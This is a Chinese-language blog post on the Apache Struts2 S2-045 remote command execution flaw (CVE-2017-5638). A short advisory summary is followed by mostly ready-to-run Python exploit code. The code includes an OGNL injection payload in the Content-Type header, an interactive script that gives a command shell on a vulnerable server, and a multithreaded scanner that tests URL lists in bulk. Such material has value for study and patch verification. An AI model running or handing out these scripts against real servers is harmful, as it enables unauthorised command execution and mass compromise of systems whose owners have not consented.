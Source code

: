 ```yaml
---
title: Struts2_045漏洞
date: 2017-03-07 13:57:32
comments: true
tags: 
- struts2漏洞
- struts2 Poc
categories: web安全
password:
copyright: true
---
```

<blockquote class="blockquote-center">Struts2是个好东西</blockquote>
免责申明：*文章中的工具等仅供个人测试研究，请在下载后24小时内删除，不得用于商业或非法用途，否则后果自负*


　　Apache Struts 2被曝存在远程命令执行漏洞，漏洞编号S2-045，CVE编号CVE-2017-5638，在使用基于Jakarta插件的文件上传功能时，有可能存在远程命令执行，导致系统被黑客入侵，漏洞评级为：高危。
<!--more -->
漏洞详情：恶意用户可在上传文件时通过修改HTTP请求头中的Content-Type值来触发该漏洞进而执行系统命令。
风险等级：高风险。
漏洞风险：黑客通过利用漏洞可以实现远程命令执行。
影响版本：Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10。
安全版本：Struts 2.3.32或2.5.10.1。
修复建议：如您正在使用Jakarta文件上传插件，请升级Struts至安全版本。

更多参考：[https://cwiki.apache.org/confluence/display/WW/S2-045](https://cwiki.apache.org/confluence/display/WW/S2-045)

### POC
```bash
#! -*- encoding:utf-8 -*-
import urllib2
import sys
from poster.encode import multipart_encode
from poster.streaminghttp import register_openers

def poc(url):
    register_openers()
    datagen, header = multipart_encode({"image1": open("tmp.txt", "rb")})
    header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
    header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo nMask').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
    request = urllib2.Request(url,datagen,headers=header)
    response = urllib2.urlopen(request)
    body=response.read()

    return body

url=sys.argv[1]
body=poc(url)
if "nMask" in body:
	print "[Loopholes exist]",url

```

### Poc_Cmd
```bash
import urllib2
import sys
from poster.encode import multipart_encode
from poster.streaminghttp import register_openers

def poc(url,content="echo nMask"):
    register_openers()
    datagen, header = multipart_encode({"image1": open("tmp.txt", "rb")})
    header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
    header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"+content+"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
    request = urllib2.Request(url,datagen,headers=header)
    response = urllib2.urlopen(request)
    body=response.read()

    return body

url=sys.argv[1]
body=poc(url)
if "nMask" in body:
	print "[Loopholes exist]",url

	while 1:
		con=raw_input("[cmd]>>")
		print poc(url,content=con)
```
运行结果：
```bash
>python s2_045_cmd.py http://xxx.com/?a.action

[Loopholes exist] http://xxx.com/?a.action

[cmd]>>ls
example1
example2
```

### 多线程批量检测

```bash
import urllib2
from poster.encode import multipart_encode
from poster.streaminghttp import register_openers
import threading

def poc(url):
	register_openers()
	datagen, header = multipart_encode({"image1": open("tmp.txt", "rb")})
	header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
	header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo nMask').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
	try:
	    request = urllib2.Request(url,datagen,headers=header)
	    response = urllib2.urlopen(request,timeout=5)
	    body=response.read()
	except:
		body=""

	if "nMask" in body:
		print "[Loopholes exist]",url
		f.write(url+"\n")
	else:
		print "Loopholes not exist",url

if __name__=="__main__":
	'''
	url.txt为待检测url列表
	result.txt为检测完输出结果文件
	'''
	f=open("result.txt","a")
	url_list=[i.replace("\n","") for i in open("url.txt","r").readlines()]
	for url in url_list:
		threading.Thread(target=poc,args=(url,)).start()
		while 1:
			if(len(threading.enumerate())<50):
				break
```
POC下载地址：[https://github.com/tengzhangchao/Struts2_045-Poc](https://github.com/tengzhangchao/Struts2_045-Poc)

### 传送门
[struts2-052漏洞](http://thief.one/2017/09/06/1)
[struts2-046漏洞](http://thief.one/2017/03/21/Struts2-046%E6%BC%8F%E6%B4%9E/)
[struts2_045漏洞](http://thief.one/2017/03/07/Struts2-045%E6%BC%8F%E6%B4%9E/)
[struts2漏洞poc汇总](http://thief.one/2017/03/13/Struts2%E6%BC%8F%E6%B4%9EPOC%E6%B1%87%E6%80%BB/)
